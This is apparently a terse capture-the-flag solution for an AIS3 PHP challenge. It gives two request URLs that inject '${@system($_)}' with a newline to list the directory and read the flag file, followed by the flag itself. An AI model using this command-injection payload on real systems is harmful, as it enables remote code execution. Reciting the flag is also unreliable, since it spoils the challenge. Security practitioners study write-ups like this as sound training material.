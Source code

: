 * http://104.199.235.135:31333/?%F0%9F%8D%A3=${@system($_)}%0als

* http://104.199.235.135:31333/?%F0%9F%8D%A3=${@system($_)}%0acat%20flag_name_1s_t00_l0ng_QAQQQQQQ


* AIS3{php_is_very_very_very_easyyyyyy}